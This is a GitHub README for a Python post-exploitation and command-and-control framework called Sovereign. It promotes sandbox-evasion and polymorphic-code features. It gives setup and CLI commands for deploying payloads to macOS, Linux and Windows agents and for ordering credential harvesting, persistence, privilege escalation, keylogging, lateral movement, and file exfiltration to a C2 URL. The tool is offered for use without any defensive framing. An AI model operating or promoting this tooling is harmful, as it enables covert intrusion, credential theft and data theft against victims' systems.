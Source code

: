 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Logging and Reporting**: Detailed logging and report generation.


## Prerequisites
- Python 3.x
- Virtualenv (recommended)

### Installation and Setup

1. Clone the Repository
   git clone https://github.com/4lph4-01/share
   cd your-repo-directory

2. Create a Virtual Environment
   python -m venv venv
   source venv/bin/activate  # On Windows, use `venv\Scripts\activate`

3. Install Dependencies
   pip install -r requirements.txt

4. Prepare Payloads (If necessary)
   Ensure your payload scripts are in the `payloads` directory:
   - payloads/macos_payload.sh
   - payloads/linux_payload.sh
   - payloads/windows_payload.ps1

### Running the C2 Server

   python c2_server.py

### CLI Usage

1. List Agents
   python cli.py list-agents

2. Deploy Payload
   python cli.py deploy-payload <agent_type>
   Replace <agent_type> with macos, linux, or windows.

3. Select and Send Commands to an Agent
   python cli.py select-agent
   You can specify the agent ID directly or choose from a list of available agents.

4. Generate Report
   python cli.py generate-report

5. Send a Specific Command
   python cli.py send-command <agent_id> <command>

### Supported Commands

Credential Harvesting
   python cli.py send-command <agent_id> cred_harvest

Persistence
   python cli.py send-command <agent_id> persistence

Privilege Escalation
   python cli.py send-command <agent_id> priv_escalation

Reconnaissance
   python cli.py send-command <agent_id> reconnaissance

Data Exfiltration
   python cli.py send-command <agent_id> exfiltrate <file_path> <c2_url>
   Replace <file_path> and <c2_url> with the actual file path and C2 URL.

Keylogging
   python cli.py send-command <agent_id> keylogging

Lateral Movement
   python cli.py send-command <agent_id> lateral_movement

### Modules Directory Structure
Ensure you have a modules directory with the following structure and content:
modules/
    cred_harvest.py
    persistence.py
    priv_escalation.py
    reconnaissance.py
    exfiltration.py
    keylogging.py
    lateral_movement.py

